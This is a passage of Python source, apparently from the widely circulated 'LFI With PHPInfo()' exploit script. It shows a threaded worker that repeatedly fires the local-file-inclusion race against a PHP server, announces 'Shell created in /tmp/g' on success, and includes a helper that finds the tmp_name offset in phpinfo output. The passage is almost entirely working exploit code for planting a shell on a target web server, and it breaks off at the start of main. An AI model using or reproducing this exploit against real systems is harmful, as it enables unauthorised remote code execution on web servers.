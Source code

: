 ```
    s.close()
    s2.close()

    if d.find(tag) != -1:
        return fn

counter=0
class ThreadWorker(threading.Thread):
    def __init__(self, e, l, m, *args):
        threading.Thread.__init__(self)
        self.event = e
        self.lock =  l
        self.maxattempts = m
        self.args = args

    def run(self):
        global counter
        while not self.event.is_set():
            with self.lock:
                if counter >= self.maxattempts:
                    return
                counter+=1

            try:
                x = phpInfoLFI(*self.args)
                if self.event.is_set():
                    break
                if x:
                    print("\nGot it! Shell created in /tmp/g")
                    self.event.set()

            except socket.error:
                return


def getOffset(host, port, phpinforeq):
    """Gets offset of tmp_name in the php output"""
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host,port))
    s.send(phpinforeq)

    d = ""
    while True:
        i = s.recv(4096)
        d+=i
        if i == "":
            break
        # detect the final chunk
        if i.endswith("0\r\n\r\n"):
            break
    s.close()
    i = d.find("[tmp_name] =>")
    if i == -1:
        raise ValueError("No php tmp_name in phpinfo output")

    print("found %s at %i" % (d[i:i+10],i))
    # padded up a bit
    return i+256

def main():

    print("LFI With PHPInfo()")
    print("-=" * 30)
```